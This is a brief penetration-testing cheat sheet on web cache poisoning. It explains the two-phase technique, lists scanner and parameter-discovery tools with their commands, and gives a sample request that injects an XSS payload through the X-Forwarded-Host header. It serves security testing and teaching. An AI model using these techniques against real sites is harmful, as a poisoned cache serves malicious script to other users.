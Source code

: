 # Web Cache Poisoning

## General

{% hint style="info" %}
Web cache poisoning is an advanced technique whereby an attacker exploits the behavior of a web server and cache so that a harmful HTTP response is served to other users.

Fundamentally, web cache poisoning involves two phases. First, the attacker must work out how to elicit a response from the back-end server that inadvertently contains some kind of dangerous payload. Once successful, they need to make sure that their response is cached and subsequently served to the intended victims.

A poisoned web cache can potentially be a devastating means of distributing numerous different attacks, exploiting vulnerabilities such as XSS, JavaScript injection, open redirection, and so on.
{% endhint %}

## Tools

```bash
# https://github.com/Hackmanit/Web-Cache-Vulnerability-Scanner
wcvs -u https://url.com
# https://github.com/s0md3v/Arjun
python3 arjun.py -u https://url.com --get 
python3 arjun.py -u https://url.com --post
# https://github.com/maK-/parameth
python parameth.py -u https://example.com/test.php
# https://github.com/devanshbatham/ParamSpider
python3 paramspider.py --domain example.com
# https://github.com/s0md3v/Parth
python3 parth.py -t example.com
```

```markup
# XSS for users accessing /en?region=uk:
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"
```



